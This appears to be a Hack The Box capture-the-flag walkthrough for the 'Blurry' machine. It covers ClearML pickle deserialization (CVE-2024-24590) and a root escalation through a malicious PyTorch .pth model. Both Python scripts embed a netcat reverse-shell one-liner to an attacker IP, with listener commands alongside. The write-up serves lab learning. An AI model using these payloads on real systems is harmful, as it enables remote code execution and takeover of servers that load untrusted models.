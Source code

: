# Iclean-HTB-walkthrough


# Blurry-writeup-HTB

# Exploration

Let's perform an nmap scan

```bash
nmap -sCV -A 10.10.11.19
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/ab3c53170f9d0aa3bac1610e503b2a95f3f6a0bd/Screenshot_2024-06-08_15_45_41.jpg)

We must add the subdomains:

```bash
sudo nano /etc/hosts 
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/ab3c53170f9d0aa3bac1610e503b2a95f3f6a0bd/Screenshot_2024-06-10_18_45_06_1.png)


Let's visit the web port app.blurry.htb that we discovered with the nmap scan


![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/52f9e337e18d4ba5b6940ca24728b4df07d5d6a1/Screenshot_2024-06-08_15_46_05.png)

Just by entering a username we can enter.

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/52f9e337e18d4ba5b6940ca24728b4df07d5d6a1/Screenshot_2024-06-08_16_28_06.png)


Investigate what CLEARML is, what it is for, how it works. 
I found a website that details the vulnerabilities.

[CVE-2024-24590](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/?source=post_page-----203ea31df0e3--------------------------------) 


# Exploitation configuration

According to what they explain, an attacker could create a pickle file containing arbitrary code and upload it as an artifact to a project via the API. When a user calls the get method within the Artifact class to download and load a file into memory, the pickle file is deserialized to their system and executes any arbitrary code it contains.

We need to configure it on our machine
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-10_18_45_06.png)

```bash
pip install clearml
clearml-init
```
# Exploitation

We need a Python script that creates and uploads a malicious pickle file. 
When the file is executed, it will establish a reverse shell connection to our machine.

```bash
import pickle
import os
from clearml import Task, Logger

task = Task.init(project_name='Black Swan', task_name='REV shell', tags=["review"])

class MaliciousCode:
    def __reduce__(self):

        cmd = (
            "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc "ip port" > /tmp/f"
        )
        return (os.system, (cmd,))

malicious_object = MaliciousCode()
pickle_filename = 'malicious_pickle.pkl'
with open(pickle_filename, 'wb') as f:
    pickle.dump(malicious_object, f)

print("Malicious pickle file with reverse shell created.")

task.upload_artifact(name='malicious_pickle', artifact_object=malicious_object, retries=2, wait_on_upload=True, extension_name=".pkl")

print("Malicious pickle file uploaded as artifact.")
```

With the execution of the exploit, the artifact is loaded.
Then when the administrator checks it, you will get a shell on the listening port.

Listen on netcat
```bash
nc -lvnp <port>
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-14_04_16_58.png)

Run the exploit

```bash
python exploit.py
```
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-14_04_19_25.png)

The exploit is uploaded to the web, runs and completes. after two minutes you get reverse shell in your terminal.
You may need to run the exploit several times to obtain the shell.

# The user flag
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-13_17_54_22.png)

# Privilege escalation

Let's stabilize our shell.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")’    

export TERM=xterm 

stty raw -echo
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-14_04_23_09.png)

Let's check the ones we can run as root.
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-14_04_23_38.png)

The jippity user can run the evaluate_model command with any file that has a .pth extension. Let's navigate to the /models/ directory to investigate further.

Installing the torch from pip will allow us to create a model.

The script I will use to create our malicious model:

```bash
import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
    # PyTorch's base class for all neural network modules
    def __init__(self):
        super(MaliciousModel, self).__init__()
        self.dense = nn.Linear(10, 1)
    
    # Define how the data flows through the model
    def forward(self, demo): # Passes input through the linear layer.
        return self.dense(demo)
   
    # Overridden __reduce__ Method
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.x.x 6060 >/tmp/f"
        return os.system, (cmd,)

# Create an instance of the model
malicious_model = MaliciousModel()

# Save the model using torch.save
torch.save(malicious_model, 'demo.pth')
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-14_06_33_39.png)

```bash
jippity@blurry:~$ wget http://10.10.x.x/demo.pth
--2024-06-13 15:06:49--  http://10.10.x.x/demo.pth
```
# Root flag

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-14_06_34_06.png)


```bash
nc -lvnp 6060
listening on [any] 6060 ...
connect to [10.10.x.x] from (UNKNOWN) [10.10.11.19] 57082
root
# cat /root/root.txt
```
